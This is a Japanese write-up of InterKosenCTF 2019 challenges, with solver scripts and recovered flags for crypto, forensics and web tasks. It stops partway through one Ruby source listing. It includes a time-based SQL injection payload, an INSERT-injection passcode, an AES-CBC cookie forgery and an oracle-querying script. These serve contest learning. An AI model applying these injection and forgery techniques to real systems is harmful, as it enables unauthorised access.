


ひとりチーム [Hirota Sora](https://www.hai-furi.com/character/04_06/) で [InterKosenCTF 2019](https://kosenctf.com/) に参加しました。最終的に全ての問題を解いて 8601 点を獲得し、順位は 1 点以上を獲得した 91 チーム中 3 位でした。

以下、解いた問題の write-up です。

## Welcome
### Welcome (200)
> Join in our slack and get the flag!

この CTF の公式 Slack にログインすると、フラグが書かれているメッセージがピン留めされていました。



```
KosenCTF{g3t_r34dy_f0r_InterKosenCTF_2019}
```

## Crypto
### Kurukuru Shuffle (200)
> Please! My...
> 
> 添付ファイル: kurukuru_shuffle.tar.gz

`kurukuru_shuffle.tar.gz` を展開すると、`encrypted` という暗号化されたテキストファイルと、これの暗号化に使われた `shuffle.py` という Python スクリプトが出てきました。

`encrypted` は以下のような内容でした。

```
1m__s4sk_s3np41m1r_836lly_cut3_34799u14}1osenCTF{5sKm
```

`shuffle.py` は以下のような内容でした。

```python
from secret import flag
from random import randrange


def is_prime(N):
    if N % 2 == 0:
        return False
    i = 3
    while i * i < N:
        if N % i == 0:
            return False
        i += 2
    return True


L = len(flag)
assert is_prime(L)

encrypted = list(flag)
k = randrange(1, L)
while True:
    a = randrange(0, L)
    b = randrange(0, L)

    if a != b:
        break

i = k
for _ in range(L):
    s = (i + a) % L
    t = (i + b) % L
    encrypted[s], encrypted[t] = encrypted[t], encrypted[s]
    i = (i + k) % L

encrypted = "".join(encrypted)
print(encrypted)
```

`k` `a` `b` に乱数が使われていますが、いずれもフラグの文字数以上の値にはならないので、現実的な時間で全探索ができそうです。`KosenCTF{…}` というフラグフォーマットを利用して、`KosenCTF{AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}` を暗号化したときに `KosenCTF{` と `}` が `encrypted` と同じ位置に来るような `K` `a` `b` の組を探しましょう。

```python
target = '1m__s4sk_s3np41m1r_836lly_cut3_34799u14}1osenCTF{5sKm'
L = len(target)

for a in range(0, L):
  for b in range(0, L):
    if a == b:
      continue

    for k in range(1, L):
      encrypted = list('KosenCTF{' + 'A' * (L - len('KosenCTF{')))
      i = k

      for _ in range(L):
        s = (i + a) % L
        t = (i + b) % L
        encrypted[s], encrypted[t] = encrypted[t], encrypted[s]
        i = (i + k) % L

      for c, d in zip(target, encrypted):
        if d == 'A':
          continue
        if c != d:
          break
      else:
        print(a, b, k)
```

```
$ python3 search.py
2 15 17
15 2 17
19 32 17
32 19 17
36 49 17
49 36 17
```

6 つの候補が見つかりました。それぞれ復号を試していくと、`a=49` `b=36` `k=17` のときに意味のある文章が出てきました。

```python
encrypted = '1m__s4sk_s3np41m1r_836lly_cut3_34799u14}1osenCTF{5sKm'
L = len(encrypted)
a, b, k = 49, 36, 17

indices = []
i = k
for _ in range(L):
  s = (i + a) % L
  t = (i + b) % L
  indices.append((s, t))
  i = (i + k) % L

encrypted = list(encrypted)
for s, t in indices[::-1]:
  encrypted[s], encrypted[t] = encrypted[t], encrypted[s]

print(''.join(encrypted))
```

```
$ python3 decrypt.py
KosenCTF{us4m1m1_m4sk_s3np41_1s_r34lly_cut3_38769915}
```

```
KosenCTF{us4m1m1_m4sk_s3np41_1s_r34lly_cut3_38769915}
```

### pascal homomorphicity (333)
> nc pwn.kosenctf.com 8002
> 
> 添付ファイル: pascal_homomorphicity.tar.gz

`pascal_homomorphicity.tar.gz` を展開すると、`service.py` という以下のような内容の Python スクリプトが出てきました。

```python
from secrets import flag
from Crypto.Util.number import getStrongPrime

p = getStrongPrime(512)
q = getStrongPrime(512)
n = p * q

key = int.from_bytes(flag, "big")
c = pow(1 + n, key, n * n)

print("I encrypted my secret!!!", flush=True)
print(c, flush=True)

# receive plaintext
print(
    "I encrypt your message ;)",
    flush=True,
)

while True:
    plaintext = input("> ")
    m = int(plaintext)
    
    # check plaintext
    if m.bit_length() < key.bit_length():
        print(
            "[!]Your plaintext is too weak. At least {} bits long plaintext is required.".format(
                key.bit_length()
            ),
            flush=True,
        )
        continue
        
    # encrypt
    c = pow(1 + n, m, n * n)

    # output
    print("Thanks. This is your secret message.", flush=True)
    print(c, flush=True)
```

サーバ側でもこのスクリプトが動いているのでしょう。

適当にいろいろ試していると、`pow(1 + n, 99, n * n) < pow(1 + n, 100, n * n)` のように平文の大小関係が暗号文にも反映されることが分かりました。フラグのビット数も与えられるので、これらを利用して最上位バイトから 1 バイトずつ得ていきましょう。

```python
from pwn import * # https://github.com/Gallopsled/pwntools

s = remote('crypto.kosenctf.com', 8002)
s.recvline()

encrypted = int(s.recvline())
s.recvline()

table = ''.join(sorted('{}abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_- !?#'))

l = 48
known = 'KosenCTF{'
for _ in range(len(known), l):
  p = ''

  for c in table:
    temp = int((known + c).ljust(l, '\0').encode('hex'), 16)

    s.recvuntil('> ')
    s.sendline(str(temp))
    s.recvline()
    res = int(s.recvline())

    if res > encrypted:
      known += p
      break
    p = c

  print known
```

```
$ python2 solve.py
KosenCTF{T
KosenCTF{Th
KosenCTF{Th1
KosenCTF{Th15
︙
KosenCTF{Th15_15_t00_we4k_p41ll1er_crypt05y5tem
```

フラグが得られました。

```
KosenCTF{Th15_15_t00_we4k_p41ll1er_crypt05y5tem}
```

### Flag Ticket (400)
> My ticket number for getting the flag is `765876346283`. Please check if I can get the flag here (Web サーバへのリンク).
> 
> 添付ファイル: flag_ticket.tar.gz

`flag_ticket.tar.gz` を展開すると、`main.py` という以下のような内容の Python スクリプトと、Web サーバ用のテンプレート等のファイルが出てきました。

```python
from secret import flag, key
from Crypto.Cipher import AES
from Crypto.Util import Padding
from Crypto import Random
from binascii import hexlify, unhexlify
import json
import responder

api = responder.API()


@api.route("/")
def index(req, resp):
    if "result" in req.cookies:
        api.redirect(resp, api.url_for(result))
    else:
        api.redirect(resp, api.url_for(Check))


@api.route("/exit")
def exit(req, resp):
    resp.set_cookie("user", max_age=-1)
    api.redirect(resp, api.url_for(Check))


@api.route("/result")
def result(req, resp):
    if "result" not in req.cookies:
        api.redirect(resp, api.url_for(Check))
        return

    try:
        cipher = unhexlify(req.cookies["result"])
        if len(cipher) < AES.block_size * 2:
            resp.text = "ERROR: cookie should be iv(16) + cipher(16*n)"
            return
        iv, cipher = cipher[: AES.block_size], cipher[AES.block_size :]
        aes = AES.new(key, AES.MODE_CBC, iv)
        data = Padding.unpad(aes.decrypt(cipher), AES.block_size).decode()
        data = json.loads(data)
        resp.html = api.template("result.html", flag=flag, data=data)
    except TypeError:
        resp.text = "ERROR: invalid cookie"
    except UnicodeDecodeError:
        resp.text = "ERROR: unicode decode error"
    except json.JSONDecodeError:
        resp.text = "ERROR: json decode error"
    except ValueError:
        resp.text = "ERROR: padding error"


@api.route("/check")
class Check:
    def on_get(self, req, resp):
        resp.html = api.template("check.html")

    async def on_post(self, req, resp):
        form = await req.media("form")
        number = form.get("number", None)
        try:
            _ = int(number)
        except ValueError:
            resp.text = "ERROR: please input your ticket number"
            return

        data = json.dumps({"is_hit": False, "number": number}).encode()
        data = Padding.pad(data, AES.block_size)
        iv = Random.get_random_bytes(AES.block_size)
        aes = AES.new(key, AES.MODE_CBC, iv)
        resp.cookies["result"] = hexlify(iv + aes.encrypt(data)).decode()

        api.redirect(resp, api.url_for(result))


if __name__ == "__main__":
    api.run(debug=True)
```

簡単にまとめると、

- `/check` でチケット番号を入力すると、`{"is_hit": false, "number": (入力したチケット番号)}` という内容の JSON を、推測できない鍵とランダムな IV で AES-CBC を使い暗号化して Cookie に保存
- `/result` にアクセスすると、もし Cookie を正しく復号でき、JSON として解釈できればその内容を出力
  - もし `is_hit` が `True` であればフラグが表示される

というような挙動の Web アプリケーションのようです。

暗号化に AES-CBC が使われていること、Cookie から IV が操作できることに着目します。CBC モードでは最初のブロックの復号は、そのブロックを鍵で復号してから、これと IV を XOR したものを平文とするというような形で行われます。これを利用すれば、発行された適当な IV と 暗号文のセットを持ってきて、JSON の `false` という部分と XOR されている IV の箇所を `xor((元の IV の一部), 'false', ' true')` に変えることで、`{"is_hit": false, …}` を `{"is_hit":  true, …}` に復号させることができそうです。

以下のような感じで IV をいじり、Cookie にセットするとフラグが得られました。

```
(適当な暗号文)
7a0226c1287f57b39424092f74390ae72b57cc2e47d06a8adc26855e212b17a720586ecc6b0b6c962ee5704893e2565fa783630cc1705d123060f721277b41aa
 { " i s _ h i t " :   f a l s e

(IV をいじった暗号文、092f74390ae7 => 096961270ce7)
7a0226c1287f57b39424096961270ce72b57cc2e47d06a8adc26855e212b17a720586ecc6b0b6c962ee5704893e2565fa783630cc1705d123060f721277b41aa
 { " i s _ h i t " :     t r u e
```

```
KosenCTF{padding_orca1e_is_common_sense}
```

### E_S_P (526)
> ESP stands for Erai-Sugoi-Power.
> 
> 添付ファイル: e_s_p.tar.gz

`e_s_p.tar.gz` を展開すると、`out.txt` という暗号文等が含まれたテキストファイルと、これの暗号化に使われた `e_s_p.py` という Python スクリプトが出てきました。

`out.txt` は以下のような内容でした。

```
N = 11854673881335985163635072085250462726008700043680492953159905880499045049107244300920837378010293967634187346804588819510452454716310449345364124188546434429828696164683059829613371961906369413632824692460386596396440796094037982036847106649198539914928384344336740248673132551761630930934635177708846275801812766262866211038764067901005598991645254669383536667044207899696798812651232711727007656913524974796752223388636251060509176811628992340395409667867485276506854748446486284884567941298744325375140225629065871881284670017042580911891049944582878712176067643299536863795670582466013430445062571854275812914317
e = 5
Wow Yukko the ESPer helps you!
Yukko the ESPer: My amazing ESP can help you to get the flag! -----> the length of the flag = 39
c = 4463634440284027456262787412050107955746015405738173339169842084094411947848024686618605435207920428398544523395749856128886621999609050969517923590260498735658605434612437570340238503179473934990935761387562516430309061482070214173153260521746487974982738771243619694317033056927553253615957773428298050465636465111581387005937843088303377810901324355859871291148445415087062981636966504953157489531400811741347386262410364012023870718810153108997879632008454853198551879739602978644245278315624539189505388294856981934616914835545783613517326663771942178964492093094767168721842335827464550361019195804098479315147
```

`e_s_p.py` は以下のような内容でした。

```python
from Crypto.Util.number import *
from secret import flag, yukko
import re

assert re.match(r"^KosenCTF{.+}$", flag)

Nbits = 1024
p = getPrime(Nbits)
q = getPrime(Nbits)
n = p * q
e = 5
c = pow(bytes_to_long((yukko + flag).encode()), e, n)

print("N = {}".format(n))
print("e = {}".format(e))

print("Wow Yukko the ESPer helps you!")
print(yukko + "the length of the flag = {}".format(len(flag)))
print("c = {}".format(c))
```

RSA のようです。`e=5` と `e` が非常に小さな値ですが、`c` の 5 乗根を取ってみてもフラグは得られませんでした。

平文の一部が分かっている (`yukko` が与えられており、また `assert re.match(r"^KosenCTF{.+}$", flag)` から平文が `KosenCTF{` で始まることが分かっている) ことが利用できないかググってみると、[SageMathを使ってCoppersmith's Attackをやってみる - ももいろテクノロジー](http://inaz2.hatenablog.com/entry/2016/01/20/022936)という記事が見つかりました。どうやら平文の上位ビットがある程度分かっている場合に、対応する暗号文から平文を復元することができるようです。

試しに記事中の `partial_m.sage` に `out.txt` の値をそのまま突っ込んで実行してみましたが、平文を復元することができませんでした。もう数バイトをブルートフォースで補ってみましょう。

```python
# http://inaz2.hatenablog.com/entry/2016/01/20/022936
n = 11854673881335985163635072085250462726008700043680492953159905880499045049107244300920837378010293967634187346804588819510452454716310449345364124188546434429828696164683059829613371961906369413632824692460386596396440796094037982036847106649198539914928384344336740248673132551761630930934635177708846275801812766262866211038764067901005598991645254669383536667044207899696798812651232711727007656913524974796752223388636251060509176811628992340395409667867485276506854748446486284884567941298744325375140225629065871881284670017042580911891049944582878712176067643299536863795670582466013430445062571854275812914317
e = 5
c = 4463634440284027456262787412050107955746015405738173339169842084094411947848024686618605435207920428398544523395749856128886621999609050969517923590260498735658605434612437570340238503179473934990935761387562516430309061482070214173153260521746487974982738771243619694317033056927553253615957773428298050465636465111581387005937843088303377810901324355859871291148445415087062981636966504953157489531400811741347386262410364012023870718810153108997879632008454853198551879739602978644245278315624539189505388294856981934616914835545783613517326663771942178964492093094767168721842335827464550361019195804098479315147

kbits = 8 * 28
mbar = 42983198277764796429769849778560768556634168265102988738267040585263257346275308818714371333496991474059525021258051487213763741199340195311836730211991606494242875122658745448181510008423346774607067116707916143495126355724888827452167127505534385427098632192

print hex(mbar)

table = [ord(cc) for cc in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_- !?#']
for cc in table:
    print cc
    for dd in table:
        test_mbar = mbar | (cc << (8 * 29)) | (dd << (8 * 28))

        PR.<x> = PolynomialRing(Zmod(n))
        f = (test_mbar + x)^e - c

        xs = f.small_roots(X=2^kbits, beta=1)
    
        if len(xs) > 0:
            print test_mbar + xs[0]

print 'done'
```

これを実行してしばらく放置すると、以下のように平文が復元できました。

```
︙
70
71
72
42983198277764796429769849778560768556634168265102988738267040585263257346275308818714371333496991474059525021258051487213763741199340195311836730211991606494242875122658745448181510008423845003077394628835575047249245433531675554916299459118612591023449525885
︙
```

```
KosenCTF{H0R1_Yukk0_1s_th3_ESP3r_QUEEN}
```

## Forensics
### Hugtto! (238)
> Wow! It's random!
> 
> 添付ファイル: hugtto.tar.gz

`hugtto.tar.gz` を展開すると、`steg.py` という Python スクリプトと、これを使ってフラグを埋め込んだと思われる `steg_emiru.png` という画像が出てきました。

`steg.py` は以下のような内容でした。

```python
from PIL import Image
from secret import flag
from datetime import datetime
import tarfile
import sys

import random

random.seed(int(datetime.now().timestamp()))

bin_flag = []
for c in flag:
    for i in range(8):
        bin_flag.append((ord(c) >> i) & 1)

img = Image.open("./emiru.png")
new_img = Image.new("RGB", img.size)

w, h = img.size

i = 0
for x in range(w):
    for y in range(h):
        r, g, b = img.getpixel((x, y))
        rnd = random.randint(0, 2)
        if rnd == 0:
            r = (r & 0xFE) | bin_flag[i % len(bin_flag)]
            new_img.putpixel((x, y), (r, g, b))
        elif rnd == 1:
            g = (g & 0xFE) | bin_flag[i % len(bin_flag)]
            new_img.putpixel((x, y), (r, g, b))
        elif rnd == 2:
            b = (b & 0xFE) | bin_flag[i % len(bin_flag)]
            new_img.putpixel((x, y), (r, g, b))
        i += 1

new_img.save("./steg_emiru.png")
with tarfile.open("stegano.tar.gz", "w:gz") as tar:
    tar.add("./steg_emiru.png")
    tar.add(sys.argv[0])
```

スクリプトを実行した時刻をシードとして、フラグを 1 ビットずつ画像の各ピクセルの LSB にセットしているようです。ピクセルごとに RGB のどの色の LSB に埋め込まれるかが変わり、これは乱数によって決まっているようです。

スクリプトの最後の方を見てみると、

```python
new_img.save("./steg_emiru.png")
with tarfile.open("stegano.tar.gz", "w:gz") as tar:
    tar.add("./steg_emiru.png")
    tar.add(sys.argv[0])
```

と、フラグの埋め込み処理の終了後、すぐに出力した画像と `steg.py` を `stegano.tar.gz` として固めていることが分かります。`tar` にはファイルの最終更新日時の情報も含まれるので、これを使って乱数のシードを推測することができそうです。`steg.py` と逆の処理をしたときに、`KosenCTF{` から始まる文字列が展開されるようなシードを探しましょう。

```python
import tarfile
import random
import re
from PIL import Image

with tarfile.open('hugtto.tar.gz', 'r:gz') as f:
  t = f.getmember('./steg_emiru.png').mtime

im = Image.open('steg_emiru.png')
w, h = im.size

def test(t, xx):
  random.seed(t)

  i = 0
  res = []

  for x in range(w):
    for y in range(h):
      r, g, b = im.getpixel((x, y))
      rnd = random.randint(0, 2)

      if rnd == 0:
        bit = r & 1
      elif rnd == 1:
        bit = g & 1
      elif rnd == 2:
        bit = b & 1

      res.append(bit)

      i += 1
      if i == xx:
        res = ''.join(str(x) for x in res)
        return ''.join(chr(int(c[::-1], 2)) for c in re.findall(r'.{8}', res))

while True:
  if test(t, 8) == 'K':
    print(t)
    break
  t -= 1

print(test(t, 8 * 100))
```

```
$ python3 solve.py
1565059455
KosenCTF{Her_name_is_EMIRU_AISAKI_who_is_appeared_in_Hugtto!PreCure}KosenCTF{Her_name_is_EMIRU_AISAK
```

フラグが得られました。

```
KosenCTF{Her_name_is_EMIRU_AISAKI_who_is_appeared_in_Hugtto!PreCure}
```

### Temple of Time (285)
> We released our voting system and it's under attack. Can you investigate if the admin credential is stolen?
> 
> 添付ファイル: temple_of_time.tar.gz

`temple_of_time.tar.gz` を展開すると `40142c592afd88a78682234e2d5cada9.pcapng` という pcapng ファイルが出てきました。

[Wireshark](https://www.wireshark.org/) で開いてみると、`/index.php?portal=%27OR%28SELECT%28IF%28ORD%28SUBSTR%28%28SELECT+password+FROM+Users+WHERE+username%3D%27admin%27%29%2C1%2C1%29%29%3D48%2CSLEEP%281%29%2C%27%27%29%29%29%23` のような SQL インジェクションをしているっぽい HTTP リクエストが大量にキャプチャされているのが分かります。デコードすると `'OR(SELECT(IF(ORD(SUBSTR((SELECT password FROM Users WHERE username='admin'),1,1))=48,SLEEP(1),'')))#` のようになり、どうやら「パスワードの 1 文字目の文字コードが 48 である場合に 1 秒 sleep する」というような形で Time-based SQLi を行っていることが分かります。

Python 等で扱いやすいよう、`tshark -r 40142c592afd88a78682234e2d5cada9.pcapng -Y "http.request" > log.txt` でとりあえずプレーンテキストにします。前の HTTP リクエストから 1 秒以上経っている HTTP リクエストに着目し、その HTTP リクエストに仕込まれている SQLi のペイロードからパスワードを復元しましょう。

```python
import re
import urllib.parse

password = ''
with open('log.txt', 'rb') as f:
  t, prev = 5.650384, ''
  while True:
    req = f.readline().decode('utf-8')
    if req == '':
      break
    if 'SLEEP' not in req:
      continue

    req = re.split(r'\s+', req.strip())
    if float(req[1]) - t > 1.0:
      password += chr(int(prev))
      pass
    t = float(req[1])
    prev = urllib.parse.unquote(req[-2])
    prev = re.findall(r'=(\d+)', prev)[0]

print(password)
```

```
$ python3 solve.py
KosenCTFv;{t1m3_b4s3d_4tt4ck_v31ls_1t}
```

ちょっとゴミが混ざっていますが、フラグが得られました。

```
KosenCTF{t1m3_b4s3d_4tt4ck_v31ls_1t}
```

### lost world (303)
> Can you restore my root user? I don't remember the password.  
> Try running dmesg | grep KosenCTF after logging in.
> 
> 添付ファイル: lost_world.tar.gz

`lost_world.tar.gz` を展開すると、`lost_world.vdi` という 3 GB 弱ある VirtualBox の仮想ドライブのファイルが出てきました。とりあえず VirtualBox で起動してみましたが、`root` のログインにはパスワードが必要なようです。

[How do I reset a lost administrative password? - Ask Ubuntu](https://askubuntu.com/questions/24006/how-do-i-reset-a-lost-administrative-password#answer-165248) を参考に GRUB のエントリをいじって `root` のパスワードを変更します。再起動後 `root` としてログインし、問題文の通り `dmesg | grep KosenCTF` を実行するとフラグが得られました。



```
KosenCTF{u_c4n_r3s3t_r00t_p4ssw0rd_1n_VM}
```

### saferm (434)
> We found a USB device of the suspect. Unfortunately the document was deleted using a strong tool.
> 
> 添付ファイル: saferm.tar.gz

`saferm.tar.gz` を展開すると `disk.img` というファイルが出てきました。どのようなファイルか `file` コマンドで確認してみましょう。

```
$ file disk.img
disk.img: DOS/MBR boot sector; partition 1 : ID=0x83, start-CHS (0x0,0,2), end-CHS (0x1,70,5), startsector 1, 20479 sectors
```

ディスクイメージのようです。[FTK Imager](https://accessdata.com/product-download) で開いてみると、`saferm` と削除された `document.zip` というファイルが見つかりました。とりあえずいずれも `Export Files` で取り出します。

`document.zip` は拡張子から考えて ZIP ファイルかと思いきや、バイナリエディタで開いてみると `7E 1C AE 2A EB C8 CA 49` … と ZIP のマジックナンバーから始まっていません。`saferm` がどのようなファイルか `file` コマンドで確認してみましょう。

```
$ file saferm
saferm: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=56290bd1c9e89a65dad224953667d84270822d9a, not stripped
```

x86-64 の ELF ファイルのようです。[Ghidra](https://ghidra-sre.org/) でデコンパイルしてみましょう。

```c
char * keygen(void)

{
  long lVar1;
  FILE *fp;
  long in_FS_OFFSET;
  char key [8];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  fp = fopen("/dev/urandom","rb");
  fread(key,8,1,fp);
  fclose(fp);
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return key;
}

void saferm(char *target)

{
  long lVar1;
  int iVar2;
  char *key;
  size_t sVar3;
  char *local_RSI_41;
  char *local_RDI_41;
  long in_FS_OFFSET;
  ulong local_30;
  FILE *fp;
  char *a;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  fp = fopen(target,"rb+");
  if (fp == (FILE *)0x0) {
    perror(target);
  }
  else {
    key = keygen();
    while( true ) {
      sVar3 = fread(&local_30,1,8,fp);
      if (sVar3 != 8) break;
      local_30 = local_30 ^ (ulong)key;
      fseek(fp,-8,1);
      fwrite(&local_30,8,1,fp);
    }
    fclose(fp);
    iVar2 = unlink(target);
    if (iVar2 != 0) {
      perror(target);
    }
  }
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

int main(int argc,char **argv)

{
  if (argc < 2) {
    puts("Usage: saferm [file]");
  }
  else {
    saferm(argv[1]);
  }
  return (int)(uint)(argc < 2);
}
```

簡単にまとめると、`saferm` はコマンドライン引数として与えられたファイルを開き、`/dev/urandom` から 8 バイト分鍵として読み込み、内容を 8 バイトずつこの鍵と XOR してから上書きして削除するというプログラムのようです。

鍵は `document.zip` の先頭 8 バイトと ZIP のマジックナンバー (`50 4B 03 04 14 00 00 00`) を XOR することで得られます。復号しましょう。

```
$ python2 -c "from pwn import *; s = open('document.zip', 'rb').read(); open('res.zip', 'wb').write(xor(s, s[:8], '\x50\x4b\x03\x04\x14\0\0\0'))"
$ file res.zip
res.zip: Zip archive data, at least v2.0 to extract
$ unzip res.zip 
Archive:  res.zip

caution:  zipfile comment truncated
error [res.zip]:  missing 1462632448 bytes in zipfile
  (attempting to process anyway)
error [res.zip]:  attempt to seek before beginning of zipfile
  (please check that you have transferred or created the zipfile in the
  appropriate BINARY mode and that you have compiled UnZip properly)
  (attempting to re-compensate)
  inflating: document.pdf            
```

エラーが出ているようですが、`document.pdf` を展開することができました。`document.pdf` を開くとフラグが得られました。

```
KosenCTF{p00r_shr3dd3r}
```

## Web
### uploader (227)
> Uploader (Web サーバへのリンク)

与えられた URL にアクセスし、`view source` と書かれているリンクをクリックするとこの Web アプリケーションのソースコードが得られました。

```php
<?php

ini_set('display_errors', 0);

// reset challenge environment hourly
if (!file_exists('../hourly') || (time() - filemtime('../hourly')) > 60*60) {
    // remove uploaded files
    foreach (glob('../files/*') as $f) {
        unlink("../files/$f");
    }
    rmdir('../files');

    // remove a database
    unlink('../database.db');

    // make a directory to store uploaded files
    mkdir('../files');

    // move a secret file into `files`
    copy('../secret_file', '../files/secret_file');

    // make the database
    $db = new PDO('sqlite:../database.db');
    $db->exec('CREATE TABLE files(id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, passcode TEXT)');

    // create a secret entry
    $secrets = include('secrets.php');
    $db->exec("INSERT INTO files(name, passcode) VALUES ('secret_file', '{$secrets['passcode']}')");

    // update file modified time
    file_put_contents('../hourly', (string)time());
}

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    exit;
}

$db = new PDO('sqlite:../database.db');

// when a file is uploaded
if (isset($_POST['passcode'])) {
    $filename = basename($_FILES['file']['name']);
    if (!preg_match('@^[A-Za-z0-9_.]+$@', $filename)) {
        die('Invalid Filename');
    }
    $uploadfile = '../files/' . $filename;
    if (file_exists($uploadfile)) {
        die('File already exists');
    }
    if (! move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)) {
        die('Failed to upload file');
    }
    $db->exec("INSERT INTO files(name, passcode) VALUES ('$filename', '{$_POST['passcode']}')");
}

// file download query
if (isset($_GET['download']) && isset($_GET['passcode'])) {
    $name = $_GET['download'];
    $rows = $db->query("select name, passcode from files where name = '$name'")->fetchAll();
    if (count($rows) == 1 && $rows[0][0] === $name && $rows[0][1] == $_GET['passcode']) {
        $path = '../files/'. $name;
        header('Content-Type: application/force-download');
        header('Content-Length: '.filesize($path));
        header('Content-disposition: attachment; filename="'.$name.'"');
        readfile($path);
        exit;
    } else {
        die('Invalid filename or passcode');
    }
}

$files = [];
// search
if (isset($_GET['search'])) {
    $rows = $db->query("SELECT name FROM files WHERE instr(name, '{$_GET['search']}') ORDER BY id DESC");
    foreach ($rows as $row) {
        $files []= $row[0];
    }
}
// all files
else {
    $rows = $db->query('SELECT name FROM files ORDER BY id DESC');
    foreach ($rows as $row) {
        $files []= $row[0];
    }
}
?>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>UPLOADER</title>
    <style>
.container {
    width: 1024px;
    margin: 0 auto;
}
h1 {
    text-align: center;
}
section {
    margin: 20px 0;
}
h2 {
    border-bottom: 1px solid #ccc;
}
input[type=file] {
    display: none;
}
.upload,input[type=submit] {
    border: 1px solid #ccc;
    display: inline-block;
    padding: 0.5em 2em;
    cursor: pointer;
}
input[type=text],input[type=password] {
    border: 1px solid #ccc;
    padding: 0.5em;
}
li {
    clear: both;
}
.inline-form {
    display: inline-block;
    float: right;
}
    </style>
</head>
<body>
    <div class="container">
    <h1>UPLOADER</h1>
    <p><a href="?source">view source</a></p>

<section>
        <h2>UPLOAD</h2>
        <form enctype="multipart/form-data" method="POST">
            <label for="file-upload" class="upload">file upload</label>
            <input name="file" type="file" id="file-upload"/>
            passcode: <input type="password" name="passcode" required>
            <input type="submit" value="UPLOAD" />
        </form>
</section>

<section>
        <h2>DOWNLOAD</h2>
        <form method="GET"><input type="text" name="search" value="<?= @$_GET['search']; ?>"><input type="submit" value="search by keyword"></form>

        <ul>
            <?php foreach ($files as $f) {
            echo "<li>$f<form class='inline-form' method='get'><input type='hidden' name='download' value='$f'>passcode: <input type='password' name='passcode'/><input type='submit' value='download'></form></li>";
            } ?>
        </ul>
</section>
    </div>
</body>
</html>
```

ファイルをアップロードし、ダウンロード時に入力が必要となるパスコードを設定できる Web アプリケーションのようです。最初からアップロードされている `secret_file` にフラグが書かれていそうです。

ユーザ入力が使われている箇所を探すと、`$db->exec("INSERT INTO files(name, passcode) VALUES ('$filename', '{$_POST['passcode']}')");` とアップロード時に入力したパスコードがそのまま SQL の INSERT 文に突っ込まれており、ここで SQL インジェクションができることが分かります。

INSERT 文では `INSERT INTO table VALUES (1, "a"), (2, "b")` のようにコンマで区切ることで複数のレコードを追加することができます。これを使って `INSERT INTO files(name, passcode) VALUES ('file', 'passcode'),('secret_file','new_passcode')` のような SQL 文を発行させて `secret_file` のパスコードを追加…できればよいのですが、ダウンロード時の `$rows = $db->query("select name, passcode from files where name = '$name'")->fetchAll();` `if (count($rows) == 1 && …)` という制限によって同じファイル名が複数ある場合にはダウンロードができないようにされています。

ではどうするかというと、ファイル名は `secret_file` ではないけれど、`readfile` 時に `secret_file` を読み込ませることができるようにすればよさそうです。つまり `./secret_file` なら大丈夫そうです。

適当なファイルを `passcode'),('./secret_file','aikatsu!` というパスコードでアップロードすると、`./secret_file` というファイルが現れ `aikatsu!` というパスコードでダウンロードできました。

```
KosenCTF{y0u_sh0u1d_us3_th3_p1ac3h01d3r}
```

### Image Extractor (434)
> My hated friend releases a service (Web サーバへのリンク) which extracts images from a document. I want to break it to read /flag.
> 
> 添付ファイル: image_extractor.tar.gz

`image_extractor.tar.gz` を展開すると、`main.rb` という以下のような内容の Ruby スクリプトと、Web サーバ用のテンプレート等のファイルが出てきました。

```ruby
require 'sinatra'
require 'securerandom'
require 'fileutils'

set :environment, :production

before do
  if Dir.exists?("workdir")
    du = `du -s workdir`.split[0].to_i
    if du * 512 >= 1024 * 1024 * 10
      FileUtils.rm_rf("workdir")
      Dir.mkdir("workdir")
    end
  else
    Dir.mkdir("workdir")
  end
end

get '/' do
  erb :index
end

get '/upload' do
  erb :index
end

post '/upload' do
  if params[:file]
    begin
      name = SecureRandom.hex(16)
      filename = File.join("workdir" , name + ".zip")
      FileUtils.copy(params[:file][:tempfile].to_path, filename)
      files = `zipinfo -1 #{filename}`
      raise "ERROR" if files.lines.grep(/^word\/media\//).empty?
      redirect to('/images/' + name)
    rescue
      File.delete(filename)
      @err = "FAILED to upload a file"
      erb :index
    end
  else
    @err = 'FAILED to upload a file'
    erb :index
  end
end

get '/images/:name' do |name|
  zipfile = File.join("workdir", name + ".zip")
